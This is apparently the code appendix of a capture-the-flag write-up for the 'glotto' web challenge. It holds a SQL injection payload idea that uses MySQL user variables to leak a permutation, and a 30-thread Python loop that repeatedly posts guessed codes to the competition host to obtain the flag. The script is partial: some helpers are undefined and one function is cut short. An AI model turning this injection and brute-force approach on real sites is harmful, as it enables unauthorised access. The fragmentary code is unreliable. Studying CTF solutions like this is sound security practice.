 
### Appendix A

```python3
from collections import OrderedDict
import requests
from bs4 import BeautifulSoup
import threading
import itertools
import time

"""
Idea:

select *,
substr(@l,1+mod(@b,@r),1),
@l:=concat(substr(@l,1,mod(@b,@r)),substr(@l,2+mod(@b,@r))),
@b:=@b div @r,
@r:=@r-1,
(select 1 from (select @l:=0x30313233343536373839,@r:=9,@b:=0)x)
from april
;

"""

def main():
    index = itertools.count()
    
    def executor():
        session = requests.Session()
        if session is None:
            session = requests.Session()
            session_store.session = session
        while 1:
            my_index = next(index)
            if my_index > 2000:
                break
            leak = do_leak(session)
            code = leak.replace(" ", "")
            resp = session.post("https://glotto.web.ctfcompetition.com/", data={"code":code})
            flag = resp.text.strip()
            print(my_index, leak, flag, code)


    threads = [threading.Thread(target=executor) for i in range(30)]
    for thread in threads:
        thread.start()
        time.sleep(0.3)
    for thread in threads:
        thread.join()


def unpermute(x):
    x = [int(e) for e in x]
    r = 0
    base = 1
    N = len(x)
    for i in range(N):
        idx = x.index(i)
        if idx < 0:
            raise KeyError()
        x = x[:idx] + x[idx+1:]
        r += base * idx
        base *= N - i
```